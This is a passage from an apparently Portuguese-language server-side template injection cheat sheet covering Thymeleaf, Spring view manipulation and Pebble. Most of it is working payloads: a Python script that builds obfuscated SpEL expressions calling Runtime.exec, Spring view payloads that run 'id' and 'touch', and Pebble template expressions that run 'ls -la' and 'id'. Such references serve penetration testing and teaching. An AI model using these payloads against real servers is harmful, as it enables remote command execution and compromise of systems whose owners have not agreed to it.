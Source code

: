 ```python
# Usage: python3 gen.py "id"

from sys import argv

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}'

count = 1
for i in converted:
if count == 1:
base_payload += f"(T(java.lang.Character).toString({i}).concat"
count += 1
elif count == len(converted):
base_payload += f"(T(java.lang.Character).toString({i})))"
else:
base_payload += f"(T(java.lang.Character).toString({i})).concat"
count += 1

print(base_payload + end_payload)
```
**Mais Informações**

* [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)

### Manipulação de Visualização Spring (Java)
```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```
* [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Pebble (Java)

* `{{ someString.toUPPERCASE() }}`

Versão antiga do Pebble ( < versão 3.0.9):
```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```
Nova versão do Pebble:
```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}



{% set bytes = (1).TYPE
.forName('java.lang.Runtime')
.methods[6]
.invoke(null,null)
.exec(cmd)
.inputStream
.readAllBytes() %}
```